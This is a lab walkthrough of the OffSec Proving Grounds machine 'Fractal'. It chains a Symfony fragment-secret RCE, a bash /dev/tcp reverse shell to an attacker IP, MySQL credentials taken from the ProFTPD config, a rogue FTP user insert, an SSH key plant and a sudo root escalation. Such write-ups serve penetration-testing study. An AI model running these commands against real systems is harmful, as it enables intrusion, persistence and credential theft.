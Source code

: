 ```yaml
---
title: "Proving grounds Play: Fractal"
layout: post
date: 2023-10-14 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Symfony
- RCE
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/app_dev.php /app_dev.php/*
|_http-title: Welcome!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp open  ftp - ProFTPD

Nothing in here...!

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.187.233/

```text
# symfony 3.4 robots.txt
User-agent: *
Disallow: /app_dev.php
Disallow: /app_dev.php/*
```
http://192.168.187.233/app_dev.php

Upon visiting the URL at the bottom of the page there are several options and informations disclosed. The website is using Symfony 3.4.46 which is vulnerable to [Remote Code Execution](https://github.com/ambionics/symfony-exploits).

## Exploitation

Click on the button in the `http://192.168.187.233/app_dev.php` page and which will show an URL where it fetches configuration files. In order to successfully exploit the vulnerabiltiy the `secret` should be obtained from the `app/config/parameters.yml` file.

Visit the below URL to obtain the secret.

```text
http://192.168.187.233/app_dev.php/_profiler/open?file=app/config/parameters.yml
```

**Running Exploit**

```sh
naveenj@hackerspace:|22:50|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py http://192.168.187.233/_fragment -s 48a8538e6260789558f0dfe29861c05b
The URL /_fragment returns 403, cool

Trying 4 mutations...
  (OK) sha256 48a8538e6260789558f0dfe29861c05b http://192.168.187.233/_fragment 404 http://192.168.187.233/_fragment?_path=&_hash=pJg5Iqk0DEkiGH%2B9AiIFPmO6KY7EtvD64sHvSReQyfA%3D

Trying both RCE methods...
  Method 1: Success!

PHPINFO: http://192.168.187.233/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=4qF0rPIIXEuWrV%2FrR3ubq%2B%2B%2FSyIj1GyfHi%2FIChKUtFM%3D
RUN: secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 1 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function phpinfo --parameters what:-1
```

**Verify remote code execution**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "id"
```

![img](/assets/images/CTF/Proving_Grounds/Fractal/rce.png)

**Obtain reverse shell**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "bash -c '/bin/bash -i >& /dev/tcp/192.168.45.245/80 0>&1'"
```

```sh
naveenj@hackerspace:|05:53|~/proving_grounds/Fractal/exploit/symfony-exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.242] from (UNKNOWN) [192.168.187.233] 36306
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fractal:/var/www/html/web$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

As shown in the Nmap results there is a FTP service proftpd is running on port 21 with the mysql module enabled `/etc/proftpd/sql.conf`. We can create new user or add user `benoit` to the service which will give access to user benoit account. 

```sh
www-data@fractal:/etc/proftpd$ ll
total 1.4M
4.0K drwxr-xr-x 107 root root 4.0K Sep 27  2022 ..
4.0K -rw-r--r--   1 root root 2.9K Sep 27  2022 modules.conf
4.0K drwxr-xr-x   3 root root 4.0K Sep 27  2022 .
8.0K -rw-r--r--   1 root root 5.7K Sep 27  2022 proftpd.conf
4.0K -rw-r--r--   1 root root 1.2K Sep 27  2022 sql.conf    #sql config file
4.0K -rw-r--r--   1 root root 2.1K Sep 27  2022 tls.conf
4.0K -rw-r--r--   1 root root  832 Sep 27  2022 virtuals.conf
4.0K -rw-------   1 root root  701 Sep 27  2022 ldap.conf
1.3M -rw-r--r--   1 root root 1.3M Feb 27  2020 blacklist.dat
4.0K drwxr-xr-x   2 root root 4.0K Feb 27  2020 conf.d
 12K -rw-r--r--   1 root root 9.2K Feb 27  2020 dhparams.pem
www-data@fractal:/etc/proftpd$
```

The `sql.conf` has database credentials, extratct the credentials and login via mysql.

```conf
# used to connect to the database 
# databasename@host database_user user_password 
SQLConnectInfo proftpd@localhost proftpd protfpd_with_MYSQL_password
```

Credentials = `proftpd:protfpd_with_MYSQL_password`

```sh
www-data@fractal:/etc/proftpd$ mysql -uproftpd -pprotfpd_with_MYSQL_password
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Please refer [here](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf) for more info on creating user for proftpd using mysql.

### Adding User

Use the below to generate the password.

```sh
/bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
```

**Updating table**

```sh
mysql> select * from ftpuser;
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid | gid | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |  33 |  33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`)
    -> VALUES (NULL, 'benoit', '{md5}X03MO1qnZdYdgyfeuILPmQ==', '1000', '1000', '/', '/bin/bash', '0', '2023-10-14 05:26:29', '2023-10-14 05:26:29');   #query to add user
Query OK, 1 row affected (0.00 sec)

mysql> select * from ftpuser;
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid  | gid  | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |   33 |   33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
|  2 | benoit | {md5}X03MO1qnZdYdgyfeuILPmQ== | 1000 | 1000 | /             | /bin/bash     |     0 | 2023-10-14 05:26:29 | 2023-10-14 05:26:29 |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

## 21/tcp open  ftp - ProFTPD
 
Login to ftp using `benoit:password`.

Direct to user `benoit` directory and create .ssh folder. Download the local machine public ssh key `id_rsa.pub` as authorized_keys into the attacking machine via ftp.

```sh
ftp> cd benoit
250 CWD command successful
ftp> mkdir .ssh
257 "/home/benoit/.ssh" - Directory successfully created
ftp> ls
229 Entering Extended Passive Mode (|||56047|)
150 Opening ASCII mode data connection for file list
-r--r--r--   1 benoit   benoit         33 Oct 15 09:44 local.txt
226 Transfer complete
ftp> cd .ssh
250 CWD command successful
ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||60851|)
150 Opening BINARY mode data connection for authorized_keys
100% |***********************************************************************************************************************************************************************************************|   573       10.50 MiB/s    00:00 ETA
226 Transfer complete
573 bytes sent in 00:00 (1.71 KiB/s)
ftp> 
```

Now SSH to the user `benoit` and run executable permissions list command.

```sh
$ whoami
benoit
$ id
uid=1000(benoit) gid=1000(benoit) groups=1000(benoit)
$ sudo -l
Matching Defaults entries for benoit on fractal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User benoit may run the following commands on fractal:
    (ALL) NOPASSWD: ALL
```

The user is allowed to run ALL. Use `sudo su` to escalate privileges.

```sh
$ sudo su
root@fractal:/home/benoit# id
uid=0(root) gid=0(root) groups=0(root)
root@fractal:/home/benoit# 
```

**Root Obtained**

## Reference

- [https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).